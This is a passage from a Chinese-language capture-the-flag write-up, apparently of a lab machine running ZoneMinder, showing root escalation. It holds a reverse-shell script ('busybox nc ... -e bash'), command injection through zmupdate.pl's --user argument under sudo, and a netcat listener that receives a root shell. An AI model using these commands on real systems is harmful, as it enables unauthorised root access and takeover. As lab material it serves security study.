 ```bash
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *


zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/zm*.pl
/usr/bin/zmaudit.pl        /usr/bin/zmonvif-trigger.pl  /usr/bin/zmtrack.pl
/usr/bin/zmcamtool.pl      /usr/bin/zmpkg.pl            /usr/bin/zmtrigger.pl
/usr/bin/zmcontrol.pl      /usr/bin/zmrecover.pl        /usr/bin/zmupdate.pl
/usr/bin/zmdc.pl           /usr/bin/zmstats.pl          /usr/bin/zmvideo.pl
/usr/bin/zmfilter.pl       /usr/bin/zmsystemctl.pl      /usr/bin/zmwatch.pl
/usr/bin/zmonvif-probe.pl  /usr/bin/zmtelemetry.pl      /usr/bin/zmx10.pl
```


卡了。感觉要分析代码，但是看了下这些pl文件都是几百上千行的，结果就开摆了。
最后看大佬提示完成提权最后一步。似乎真的要代码审计，确认出 `zmupdate.pl` 是可以利用的：
```bash
zoneminder@surveillance:/tmp$ cat test.sh 
busybox nc 10.10.14.12 4446 -e bash
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/test.sh)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0
```


## flag: root

接收上面运行后得到的反弹shell，拿flag：
```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 33042
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
fb09 (...) 29cd
```


---

## 总结·后记

2023/12/13

……
